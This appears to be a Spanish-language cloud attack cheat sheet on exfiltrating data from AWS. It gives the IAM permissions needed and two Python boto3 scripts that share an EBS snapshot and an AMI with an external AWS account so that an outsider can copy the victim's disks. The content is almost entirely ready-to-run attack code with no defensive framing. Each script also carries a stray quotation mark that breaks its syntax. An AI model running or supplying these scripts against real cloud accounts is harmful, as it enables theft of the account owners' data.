 # Exfiltracion de datos utilizando un Snapshots de EBS
## Permisos Requeridos: 
ec2:ModifySnapshotAttribute
ec2:DescribeSnapshots

```python
import boto3

# Crear un cliente de EC2
ec2_client = boto3.client('ec2')

# Definir el ID del snapshot
snapshot_id = 'snap-01234567890abcdef'

# Definir el ID de la cuenta AWS con la que compartir el snapshot
account_id = '012345678901'

# Compartir el snapshot con la cuenta AWS externa
ec2_client.modify_snapshot_attribute(
    SnapshotId=snapshot_id,
    Attribute='createVolumePermission',
    CreateVolumePermission={
        'Add': [{'UserId': account_id}]
    }
)"

```
		
# Exfiltracion de datos utilizando un Snapshots de una AMI
## Permisos Requeridos: 
ec2:ModifyImageAttribute
ec2:DescribeImages

```python
import boto3

# Crear un cliente de EC2
ec2_client = boto3.client('ec2')

# Definir el ID de la AMI
ami_id = 'ami-01234567890abcdef'

# Definir el ID de la cuenta AWS con la que compartir la AMI
account_id = '123456789012'

# Modificar los permisos de lanzamiento para compartir la AMI
ec2_client.modify_image_attribute(
    ImageId=ami_id,
    LaunchPermission={
        'Add': [{'UserId': account_id}]
    }
)"

```
